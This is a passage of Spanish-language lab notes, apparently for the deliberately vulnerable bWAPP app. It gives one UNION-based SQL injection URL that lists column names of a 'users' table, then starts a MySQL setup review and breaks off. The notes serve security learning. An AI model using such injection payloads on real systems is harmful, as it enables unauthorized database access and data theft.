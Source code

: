 ![](25.1.png)

```http
http://192.168.1.203/bWAPP//sqli_2.php?movie=-3+union+select+1,column_name,3,4,5,6,7+from+information_schema.columns+where+table_name=%27users%27+and+table_schema=database()+limit+1+offset+0&action=go
```

![](25.2.png)

## REPASO MYSQL

A continuación, el siguiente paso es configurarla:

```shell
sudo mysql_secure_installation
```

Ahora entramos a MySQL con:

`````shell
mysql -u root -p
`````

Pero antes, comandos a recordar: 
